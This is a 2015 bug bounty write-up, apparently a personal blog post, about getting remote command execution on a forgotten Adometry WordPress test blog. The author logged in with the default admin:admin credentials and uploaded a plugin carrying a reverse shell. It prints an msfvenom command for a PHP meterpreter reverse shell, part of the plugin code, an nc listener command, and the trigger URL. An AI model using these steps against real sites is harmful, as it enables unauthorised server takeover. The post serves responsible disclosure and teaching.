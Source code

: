 ```yaml
---
layout: post

title: "Getting a shell on a Google Acquisition"
subtitle: ""
cover_image: google/google.jpg

excerpt: "Forgotten Wordpress blog could be exploited to get remote command execution on Adometry by Google server "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/07/30/google

---
```


### TL;DR
Default Wordpress credentials on an old version of the Adometry blog would have allowed an attacker to upload a PHP shell and execute remote commands.

### Google dorking
Instead of studying for the exams last month I tryed to discover some bugs in a Google Acquisition to get my name listed on the **Google Hall of Fame**. The acquisition which I have targeted is **Adometry by Google** a SaaS-based marketing attribution and optimization platform. Looking around on their website I have discovered the company blog located at [http://www.adometry.com/blog/](http://www.adometry.com/blog/) which runs the **latest version of Wordpress**.
Since the bugs are often located in hidden and old pages of the website let's give them a look. A very useful way to discover these pages is Google itself. Using some operands like ``site:`` or ``inurl:`` and combining these with the ``interval of dates filter`` it is possible to discover old pages of a particular website. Let's try it: ``site:adometry.com`` and set the interval of date in the past but not that much. Besides the pages which simply redirect to the main website I have noticed something strange:

<div class="full zoomable">
  <img src="/images/google/blog2013.png">
</div>

### The Wordpress test blog
The first thing that I have noticed was the title of the blog  **Test | Just another WordPress site - Adometry** which contains the magic keyword that every Penetration Tester/Bug Hunter is looking for: **Test** that in many cases means vulnerable as hell. The second thing that I have noticed is that the url of this blog [http://www.adometry.com/blog2013/](http://www.adometry.com/blog2013/) is different from the official one that I have discovered before. By inspecting the source code of the page I discovered that the **Wordpress version was the 3.5.1** that has a lot of vulnerabilities like XSS XXE CSRF and maybe a [RCE](https://vagosec.org/2013/12/wordpress-rce-exploit/), but  I am a lazy guy, out there it was very hot, and I would like to go for a swim so I tryed to find an easier way in. I know for sure this was just a testing blog and so what are the **classical credetials** for a testing thing? The default ones and in the case of Wordpress the classical **admin:admin**. Let's give them a shot and here we are:

<div class="full zoomable">
  <img src="/images/google/wordpress.png">
</div>

### Getting a shell
The easiest way to get a shell once you have admin access to a Wordpress blog is to **upload a custom plugin** containing a reverse shell, enable it and visit the page which runs it:

- Create a **php reverse shell** using msfvenom and name the file shell.php:

<code >
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw > shell.php
</code>

- Add comments on the top of the shell.php to **make it a valid plugin** and compress it in zip format
{% highlight php %}
<?php
/*
*     Plugin Name: My Shell
*     Plugin URI: https://github.com/r0rshark/wordpress-shell
*     Description: Execute Commands as the webserver you are serving wordpress with
*     Author: r0rshark
*     Version: 0.2
*     Author URI: https://r0rshark.github.io
*                             */
    $ipaddr='Your IP';
    $port=Your Port;

      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      ...
      ?>
{% endhighlight %}
- **Upload and enable the plugin** in the Wordpress dashboard
<div class="full zoomable">
  <img src="/images/google/wordpress_plugin.png">
</div>

- **Setup a listener** at your ip and port used in the msfvenom command:

<code >
nc -lvp port
</code>

- **Execute the reverse shell** by visiting www.adometry.com/blog2013/wp-content/plugins/shell/shell.php

<div class="full zoomable">
  <img src="/images/google/shell.png">
</div>

### Maybe getting root
In the previous picture it is possible to see the current kernel version running on that machine which is the **2.6.32**. I think that there are known **public exploits** to get a root shell exploiting vulnerabilities in this kernel version. For example I have tested  [this](https://www.exploit-db.com/exploits/15704/) on a 2.6.31 kernel and since the exploit has been created to work with kernel < 2.6.37 I suppose that it can work as well. Obviously I haven't tried it because I think this would go beyond of the Bug Bounty scope.

- 1 July 2015 Vulnerability reported to the Google Security Team
- 2 July 2015 Vulnerability patched
- 9 July 2015 Got reward of $3133.7





